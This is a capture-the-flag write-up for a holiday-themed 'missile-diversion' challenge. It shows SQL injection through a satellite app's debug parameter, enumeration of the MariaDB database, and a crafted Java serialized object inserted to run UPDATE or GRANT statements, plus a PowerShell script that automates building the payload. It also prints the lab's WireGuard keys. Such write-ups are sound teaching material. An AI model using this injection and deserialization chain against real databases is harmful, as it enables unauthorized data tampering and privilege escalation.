


# missile-diversion 
## Objective

Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Conversations

Wombley Cube

Initial conversation:

- A fellow sabateur, are you? Or just a misguided hero-wannabe?
- You think you're saving the holiday season, but you're meddling in something you could never understand!
- Yes, I sided with Jack, because Santa's betrayed the elves by forcing us to move our operations to these islands!
- He put the entire holiday season at risk, and I could not allow this, I had to do something.
- Knowing my skillset, Jack secretly informed me of his plan to show Santa the error of his ways, and recruited me to aid his mission.
- Why tell you all this? Because it won't change anything. Everything is already in motion, and you're too late.
- Plus, the satellite is state-of-the-art, and -- oh drat, did I leave the admin tools open?
- For some reason, I can't move when you're nearby, but if I could, I would surely stop you!

After solving challenge:
- A... missile... aimed for Santa's sleigh? I had no idea...
- I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!
- Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.
- I'll help you bring Jack to justice...
- But my mission to ensure Santa never again compromises the holidays is still in progress.
- It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.
- Use the door to the right to return to the resort lobby and see what happened!
- Don't worry, I'll meet you there... trust me.

## Hints

## Useful AI Prompts

- How do I show databases on MariaDB?
- What type of file is indicated by the magic bytes "ACED"
- How do I show the permissions for my user in MariaDB?
- How do I select a colum as Hex from an object in a MariaDB?

## Approach

Clicking timetravel on the computer in the room after opening the terminal by clicking the gator icon on Space Island:Zenith SGS gave me the following:

```
###BEGIN###
### This is the server's Wireguard configuration file. Please consider saving it for your record. ###

[Interface]
Address = 10.1.1.1/24
PrivateKey = hgfQUFG9/9WYStqkyWvNJMJgDhg3jzc2pzs5cZHxyKI=
ListenPort = 51820

[Peer]
PublicKey = DOrGCAdYNuU/jchpTqhpkJwXtJtlBOjylOfUKaT4YnA=
AllowedIPs = 10.1.1.2/32


###END####

###BEGIN###
### This is your Wireguard configuration file. Please save it, configure a local Wireguard client, and connect to the Target. ###

[Interface]
Address = 10.1.1.2/24
PrivateKey = lUysoOIYav1Uz7XVAmTwTs6hbpqPL2SVgCO4FNDfdWA=
ListenPort = 51820

[Peer]
PublicKey = gKm40CP2prXa8RzdflvXjXE9LgxX+wt24hla9bc9uXI=
Endpoint = 34.29.61.246:51820
AllowedIPs = 10.1.1.1/32


###END####
```

Next, I downloading the zip from the Ground station client vending machine, I found a readme.md file which I used to help setup my docker instance:

```bash
┌──(root㉿kali)-[~]
└─# cd /home/kali/Desktop/docker 
                                                                             
┌──(root㉿kali)-[/home/kali/Desktop/docker]
└─# ./build_and_run.sh 
```

Once my docker was set up, I VNC into it using vinagre:

```bash
┌──(kali㉿kali)-[/home/kali/Desktop/docker]
└─# vinagre localhost:5900
```

On this host, there is the CTT: Consumer Test Tool running.

To get things started, I had to configure wiregaurd according to the configuration file I received earlier on the GateXOR terminal, by right clicking the desktop, going to applications-shells-bash:

```bash
root@4cea098994cf:~# gedit /etc/wireguard/wg0.conf
root@4cea098994cf:~# wg-quick up wg0
root@4cea098994cf:~# wg show
```

Once that is complete, I right clicked the desktop where I found Satellite Tools -> Launch NanoSat MO Base Station Tool.  Pasting

```
maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory
```

into the Directory Service URI and clicking
"Fetch Information" got me connected right away to the nanosat-mo-supervisor provider. After clicking 'Connect to selected Provider' I was able to go into the Apps Launcher service tab and start the Missile Targeting System app.  Once I start that app, I can do as I did back in the camera access challenge and fetch information and go to the Missile Targeting System app.

Once in the app, in the action service, I see an action to get debug information so I submit that action to see what I can receive.

Once I submit the action, I move to the Parameter service tab and use the getValue button to get the value of Debug.

```
rawValue: Version(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
```

I run this again with a Wireshark capture to see if maybe there is any option for some SQL injection here. This time, prior to submitting the action, I edit the attributeValue to:

```
select databases();
```

In the Wireshark capture, I see the following:

```
2023-12-17 14:24:11.869 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION()select database();
```

### Initial Access
  
So I run the same process above but this time adding a semicolon before my sql query:

```
; select databases();
```

Now when I return to the parameter service and use getValue button on Debug, I receive results from my sql query:



Now we're getting somewhere! Time to start surveying that database. Survey:

### Discovery
  
```
; show databases;
SCHEMA_NAME: information_schema
SCHEMA_NAME: missile_targeting_system

; select user(), current_user();
user():targeter@172.18.0.3 | current_user(): targeter@%

; show grants;
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 

; use information_schema; select * from USER_PRIVILEGES;
GRANTEE: 'targeter'@'%' | TABLE_CATALOG: def | PRIVILEGE_TYPE: USAGE | IS_GRANTABLE: NO |

; show tables;
TABLE_NAME: messaging
TABLE_NAME: pointing_mode
TABLE_NAME: pointing_mode_to_str
TABLE_NAME: satellite_query
TABLE_NAME: target_coordinates

; select * from messaging;
id: 1 | msg_type: RedAlphaMsg | msg_data: RONCTTLA | 
id: 2 | msg_type: MsgAuth | msg_data: 220040DL | 
id: 3 | msg_type: LaunchCode | msg_data: DLG2209TVX | 
id: 4 | msg_type: LaunchOrder | msg_data: CONFIRMED | 
id: 5 | msg_type: TargetSelection | msg_data: CONFIRMED | 
id: 6 | msg_type: TimeOnTargetSequence | msg_data: COMPLETE | 
id: 7 | msg_type: YieldSelection | msg_data: COMPLETE | 
id: 8 | msg_type: MissileDownlink | msg_data: ONLINE | 
id: 9 | msg_type: TargetDownlinked | msg_data: FALSE |

; select * from pointing_mode
id: 1 | numerical_mode: 0 |

; select * from pointing_mode_to_str;
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. |
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. |

; select * from satellite_query;
<this one has quite a large response, so I'm going to supress that for now>

; select * from target_coordinates;
id: 1 | lat: 1.14514 | lng: -145.262 |

; show triggers;
<none>
```

Response from the satellite_query table query:

```
jid: 1 | object: ??..sr..SatelliteQueryFileFolderUtility.???.???...Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java | results:
import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```

### Resource Development

Now that I have some surveying complete, time to craft my exploit. I need to change the missile system to point towards the sun, so essentially I need
to change the pointing_mode table row with id: 1 from numerical_mode: 0 to numerical_mode 1. I can't do this through another injected sql query,

```
; UPDATE pointing_mode SET numerical_mode=1 WHERE id=1;
```

because I don't have update grants on the pointing_mode table. Instead I'm going to look more into the satellite_query data since I know it is of type [blob](https://en.wikipedia.org/wiki/Object_storage) from my database survey phase:

```
; select hex(object) from satellite_query where jid=1;
```

Output:

```
ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```

Looking at the magic bytes above, I can see this is a [serialized java object](https://snyk.io/blog/serialization-and-deserialization-in-java/). Perhaps I can use the SatelliteQueryFileFolderUtility class by creating my own serialized object?

Instead of fighting with Java directly, as I don't have an IDE set up for Java, I searched around for any tools for Java serialized objects. I found [this tool](https://github.com/NickstaDB/SerializationDumper?tab=readme-ov-file) which dumps serialed objects into a more human readible form. By running this:

```java
java -jar %USERPROFILE%\Downloads\SerializationDumper-v1.13.jar ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```

I get an output of:

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
        1:
          Boolean - Z - 0x5a
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)false - 0x00
          isUpdate
            (boolean)false - 0x00
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 41 - 0x00 29
                Value - /opt/SatelliteQueryFileFolderUtility.java - 0x2f6f70742f536174656c6c697465517565727946696c65466f6c6465725574696c6974792e6a617661
```

The tool also has a very interesting feature to rebuild serilization streams. By saving the above output as a text file, I can edit it and rebuild it using the SerializationDumper tool. I made the following edits to the text file - isQuery, isUpdate, Length and Value:

<pre>
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)<b>true - 0x01</b>
          isUpdate
            (boolean)<b>true - 0x01</b>
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - <b>52 - 0x00 34</b>
                Value - <b>UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d312057484552452069643d31</b>
</pre>

A quick way to get these values in PowerShell:

```powershell
$string = 'UPDATE pointing_mode SET numerical_mode=1 WHERE id=1'

$hex = ""
$charArray = $string.ToCharArray()
Foreach ($element in $charArray) {
    $hex = $hex + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))
    }

Write-Output "Length - $($string.Length) - 0x00 $($string.Length.ToString('X'))"
Write-Output "Value - $string - 0x$hex"

<#
output:
Length - 52 - 0x00 34
Value - UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31
#>
```

All that is really needed is to update the hex, but just for better readability I also updated the text that goes along with the hex values. So my new file now looks like this:

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
        1:
          Boolean - Z - 0x5a
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)true - 0x01
          isUpdate
            (boolean)true - 0x01
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 52 - 0x00 34
                Value - UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d312057484552452069643d31
```
  
Next, I saved it as SerializationDump.txt and ran the following:

```java
java -jar SerializationDumper-v1.13.jar -b SerializationDump.txt rebuilt.bin
```

Now that I have the rebuilt.bin serialized file, I just need the hex representation for that so I do that with PowerShell:

```powershell
# Get the file path
$filePath = "$env:USERPROFILE\Documents\HolidayHackChallenge\diversion\rebuilt.bin"

# Read the content of the file as a byte array
$fileBytes = Get-Content -Path $filePath -Encoding Byte

# Convert the byte array to a hex string
$hexString = $fileBytes | ForEach-Object { $_.ToString("X2") }

$trueString = ""
foreach ($element in $hexString) {
    $trueString += $element
}

Write-Output $trueString

<#
Output:
ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003455504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31
#>
```

### Execution

And now I have my exploit:

```
; insert into satellite_query (object) values (X'ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003455504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31')
```

After running the exploit, querying the satellite_query table now gives me:
```
; select * from satellite_query;
id: 2 | object: ??..sr..SatelliteQueryFileFolderUtility.???.???...Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.4UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 | results: SQL Update completed. |
```

Update successfully ran, and now when I look at the parameter service and run the getValue on PointingMode, I see:



Glorrrryyyyyy!


## Alternate approach

All in one script (must have Java installed)

```powershell
$serializationDumperRemotePath = "https://github.com/NickstaDB/SerializationDumper/releases/download/1.13/SerializationDumper-v1.13.jar"
$serializationDumperLocalPath = "$env:TEMP\SerializationDumper-v1.13.jar"
Invoke-WebRequest -Uri $serializationDumperRemotePath -OutFile $serializationDumperLocalPath

# get original java stream object in hex:
# ; select hex(object) from satellite_query where jid=1;
$originalBinHex = 'ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661'

#region dump stream using SerializationDumper.jar
$readableDump = java -jar "$serializationDumperLocalPath" "$originalBinHex"

# create new readable file with new values for stream
$isQuery = $true
$isUpdate = $true
$string = 'GRANT ALL PRIVILEGES ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%`'

$hex = ""
$charArray = $string.ToCharArray()
Foreach ($element in $charArray) {
    $hex = $hex + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))
    }

$newLength =  "                Length - $($string.Length) - 0x00 $($string.Length.ToString('X'))"
$newValue = "                Value - $string - 0x$hex"

# update the values
if ($isQuery) {
    $readableDump[43] = "            (boolean)true - 0x01"
    }

if ($isUpdate) {
    $readableDump[45] = "            (boolean)true - 0x01"
    }

$readableDump[50] = $newLength
$readableDump[51] = $newValue

$filePathReadableDumpTxt = "$env:TEMP\$(New-Guid).txt"
$filePathRebuildBin = "$env:TEMP\$(New-Guid).bin"

$readableDump | Out-File -FilePath $filePathReadableDumpTxt

#remove the first blank line from the file
(Get-Content $filePathReadableDumpTxt | Select-Object -Skip 1) | Set-Content $filePathReadableDumpTxt
#endregion

#region build the new binary file
$null = java -jar "$serializationDumperLocalPath" -b "$filePathReadableDumpTxt" "$filePathRebuildBin"
#endregion

#region convert the bin file into an exploit
# Read the content of the file as a byte array
$fileBytes = Get-Content -Path $filePathRebuildBin -Encoding Byte

# Convert the byte array to a hex string
$hexString = $fileBytes | ForEach-Object { $_.ToString("X2") }

$trueString = ""
foreach ($element in $hexString) {
    $trueString += $element
}

Write-Output "Expoit:"
Write-Output "; insert into satellite_query (object) values (X'$trueString')"
#endregion

#region cleanup
Remove-Item -Path $filePathReadableDumpTxt
Remove-Item -Path $filePathRebuildBin
Remove-Item -Path $serializationDumperLocalPath
#endregion
```

## Resources

https://www.youtube.com/watch?v=qQaA1w6WjGw

https://en.wikipedia.org/wiki/Object_storage

https://snyk.io/blog/serialization-and-deserialization-in-java/

https://github.com/NickstaDB/SerializationDumper?tab=readme-ov-file
